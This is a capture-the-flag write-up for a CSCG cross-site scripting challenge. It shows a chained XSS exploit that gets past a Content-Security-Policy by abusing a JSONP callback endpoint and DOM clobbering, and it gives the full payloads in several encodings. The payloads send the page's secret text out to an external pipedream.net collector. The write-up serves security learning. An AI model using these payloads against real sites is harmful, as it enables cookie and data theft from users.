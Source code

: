 XSS with search on main page
XSS with post parameter `bg` on stage 2 page

Content-Security policy blocks inline scripts but we can use `/items.php` and search for:

`<script src="/items.php?cb=alert(1)%2F%2F"></script>`

but: callback max length is 250 characters


## Script for stage 2

```js
location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()
```

```
lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--
```


## Script for stage 1

```js
x=stage2.href;fetch(x,{method:"post",headers:{'Content-type':'multipart/form-data'},credentials:"include",body:`lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--`});location=x;

x=stage2.href;fetch(x,{method:"post",credentials:"include",body:new URLSearchParams({bg:`lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--`})});location=x;
```

```js
x=stage2.href;fetch(x,{method:"post",credentials:"include",body:new URLSearchParams({bg:`lang"\x3e\x3chr id=backgrounds lang="\x3cscript\x3elocation='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"\x3e\x3c!--`})});location=x;
```

```
x%3Dstage2.href%3Bfetch%28x%2C%7Bmethod%3A%22post%22%2Ccredentials%3A%22include%22%2Cbody%3Anew%20URLSearchParams%28%7Bbg%3A%60lang%22%5Cx3e%5Cx3chr%20id%3Dbackgrounds%20lang%3D%22%5Cx3cscript%5Cx3elocation%3D%27%2F%2Fenbdblkpmmbod.x.pipedream.net%2F%27%2B%24%28%27b%27%29.text%28%29%22%5Cx3e%5Cx3c%21--%60%7D%29%7D%29%3Blocation%3Dx%3B
```

defer to wait for jQuery to load

```
<script defer src="/items.php?cb=x%3Dstage2.href%3Bfetch%28x%2C%7Bmethod%3A%22post%22%2Ccredentials%3A%22include%22%2Cbody%3Anew%20URLSearchParams%28%7Bbg%3A%60lang%22%5Cx3e%5Cx3chr%20id%3Dbackgrounds%20lang%3D%22%5Cx3cscript%5Cx3elocation%3D%27%2F%2Fenbdblkpmmbod.x.pipedream.net%2F%27%2B%24%28%27b%27%29.text%28%29%22%5Cx3e%5Cx3c%21--%60%7D%29%7D%29%3Blocation%3Dx%3B"></script>
```

```
http://xss.allesctf.net/?search=%3Cscript%20defer%20src%3D%22%2Fitems.php%3Fcb%3Dx%253Dstage2.href%253Bfetch%2528x%252C%257Bmethod%253A%2522post%2522%252Ccredentials%253A%2522include%2522%252Cbody%253Anew%2520URLSearchParams%2528%257Bbg%253A%2560lang%2522%255Cx3e%255Cx3chr%2520id%253Dbackgrounds%2520lang%253D%2522%255Cx3cscript%255Cx3elocation%253D%2527%252F%252Fenbdblkpmmbod.x.pipedream.net%252F%2527%252B%2524%2528%2527b%2527%2529.text%2528%2529%2522%255Cx3e%255Cx3c%2521--%2560%257D%2529%257D%2529%253Blocation%253Dx%253B%22%3E%3C%2Fscript%3E
```

## What's happening?

1. Set search url to a `script` tag with src `items.php` where the callback is some JavaScript
2. In JavaScript: Post request to stage2 to set background to `lang"><hr id=backgrounds lang="<script>location="//enbdblkpmmbod.x.pipedream.net/"+$("b").text()"><!--`
3. Navigate to stage2
4. Background XSS will comment out the original `backgrounds` array
5. The `hr` element with `id=backgrounds` will get selected and because the `input#bg`'s value is `lang` we add the `hr`'s `lang`-value to the dom, which is a `script` tag
6. Because of the `strict-dynamic` in the `Content-Security-Policy` the `script` tag will not get blocked
7. The JavaScript in the `script` tag grabs the flag and navigates to `http://enbdblkpmmbod.x.pipedream.net/<the flag>`
8. The flag will show up in the server log

Flag: `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`
